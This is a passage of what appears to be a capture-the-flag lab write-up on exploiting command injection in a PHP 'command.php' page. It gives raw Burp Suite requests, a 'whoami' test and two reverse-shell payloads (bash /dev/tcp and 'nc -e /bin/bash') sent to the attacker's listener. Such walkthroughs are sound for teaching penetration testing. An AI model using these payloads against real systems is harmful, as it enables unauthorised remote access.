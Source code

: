 The different radio buttons let us run `ls -l`, `du -h`, and `df -h`. These commands wouldn't happen to be passed unsanitized would they? Let's turn on our proxy and open Burp Suite to check.

```
POST /command.php HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/command.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Cookie: PHPSESSID=g2i3eka79h373jmn94bm7qekj3
Upgrade-Insecure-Requests: 1

radio=ls+-l&submit=Run
```
Uh oh, let's insert other commands to verify this RCE. I updated the final line to: `radio=whoami&submit=Run`

![whoami](/images/vhub/dc/4_4.png)

Let's intercept another request and run some more nefarious commands.

## Gaining Access

I tried passing a few commands in to get a shell, including using a URL encoder, e.g. `bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.6%2F1234+0%3E%261`. Turns out, all I needed to do was send this:
```
POST /command.php HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/command.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Connection: close
Cookie: PHPSESSID=g2i3eka79h373jmn94bm7qekj3
Upgrade-Insecure-Requests: 1

radio=nc -e /bin/bash 10.10.10.6 1234&submit=Run
```
Let's check our listener.